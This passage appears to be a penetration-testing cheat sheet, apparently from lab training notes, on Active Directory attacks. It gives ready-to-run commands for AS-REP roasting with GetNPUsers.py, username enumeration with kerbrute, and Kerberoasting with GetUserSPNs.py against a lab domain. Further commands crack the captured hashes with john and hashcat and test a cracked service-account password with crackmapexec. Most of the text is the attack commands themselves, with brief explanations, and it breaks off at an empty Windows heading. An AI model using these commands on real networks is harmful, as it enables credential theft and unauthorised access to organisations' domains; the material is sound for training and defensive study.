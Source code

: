 ```powershell
GetNPUsers.py <domain>/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast -dc-ip 172.16.2.5  -no-pass 
## try one username
GetNPUsers.py <domain>/<username>  -format hashcat -outputfile hashes.asreproast -dc-ip 10.129.159.45 -no-pass  
## Use domain creds 
GetNPUsers.py <domain>/<username>:<pass> -request -format hashcat -outputfile hashes.asreproast

# kerbrute
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```
### crack
```shell
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
```

## Kerberoasting 
- Kerberoasting focuses on the acquisition of TGS tickets, specifically those related to services operating under user accounts in Active Directory (AD)
- Kerberoasting is an attack against service accounts that allows an attacker to perform an offline password-cracking attack against the Active Directory account associated with the service.
- Any domain user can request a Kerberos ticket for any service account in the same domain. This is also possible across forest trusts if authentication is permitted across the trust boundary. 


### From Linux 

**GetUserSPNs.py**
```shell
# Listing SPN Accounts with GetUserSPNs.py
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

# Requesting all TGS Tickets that this user can request 
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 

# Requesting a Single TGS ticket
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev

# Saving the TGS Ticket to an Output File
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

**Cracking the Ticket Offline with Hashcat**
```shell
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
```

**Testing Authentication against a Domain Controller**
```shell
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```
### from Windows
